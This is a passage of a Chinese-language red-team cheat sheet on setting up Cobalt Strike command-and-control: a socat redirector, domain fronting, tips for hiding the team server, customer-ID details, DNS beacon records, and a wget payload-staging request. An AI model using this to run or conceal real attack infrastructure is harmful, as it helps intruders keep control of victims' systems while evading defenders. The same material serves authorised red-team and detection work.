 ```powershell
sudo apt install socat
socat TCP4-LISTEN:80,fork TCP4:[团队服务器]:80
```

### 域名前置

* 新建监听器 > HTTP主机头
* 在“金融与医疗”领域选择一个域名

## 操作安全

**不要**

* 使用默认的自签名HTTPS证书
* 使用默认端口（50050）
* 使用0.0.0.0 DNS响应
* Metasploit兼容性，请求有效载荷：`wget -U "Internet Explorer" http://127.0.0.1/vl6D`

**要**

* 使用重定向器（Apache，CDN等）
* 防火墙仅接受来自重定向器的HTTP/S
* 通过SSH隧道访问50050端口并在防火墙上阻止访问
* 编辑默认的HTTP 404页面和内容类型：text/plain
* 没有分级设置，将Malleable C2中的`hosts_stage`设置为`false`
* 使用Malleable配置文件针对特定行为者定制攻击

### 客户ID

> 客户ID是与Cobalt Strike许可证密钥关联的一个4字节数字。Cobalt Strike 3.9及更高版本将此信息嵌入到Cobalt Strike生成的有效载荷注入器和注入阶段中。

* 客户ID值是Cobalt Strike 3.9及更高版本中Cobalt Strike有效载荷注入器的最后4个字节。
* 试用版的客户ID值为0。
* Cobalt Strike在其网络流量或工具的其他部分不使用客户ID值

## 有效载荷

### DNS信标

* 编辑域的区文件
* 为Cobalt Strike系统创建一个A记录
* 创建一个指向您的Cobalt Strike系统FQDN的NS记录

您的Cobalt Strike团队服务器系统必须是您指定的域的权威。创建一个DNS A记录并将其指向您的Cobalt Strike团队服务器。使用DNS NS记录将几个域或子域委托给您的Cobalt Strike团队服务器的A记录。

* nslookup jibberish.beacon polling.campaigns.domain.com
* nslookup jibberish.beacon campaigns.domain.com

Digital Ocean上的DNS示例：

```powershell
NS  example.com                     指向 10.10.10.10.            86400
NS  polling.campaigns.example.com   指向 campaigns.example.com.	3600
A	campaigns.example.com           指向 10.10.10.10	            3600 
```
